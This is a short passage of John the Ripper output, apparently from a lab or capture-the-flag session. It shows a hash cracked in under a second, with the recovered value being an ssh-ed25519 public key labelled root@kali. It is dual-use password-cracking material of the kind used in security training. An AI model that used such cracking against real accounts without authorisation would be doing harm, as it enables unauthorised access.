Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfy3402O5EN6KOaInOukRh3bNQwoLDjEs88Wb+TuN3f root@kali (?)
1g 0:00:00:00 DONE (2026-06-02 20:29) 33.33g/s 33.33p/s 33.33c/s 33.33C/s ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfy3402O5EN6KOaInOukRh3bNQwoLDjEs88Wb+TuN3f root@kali
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


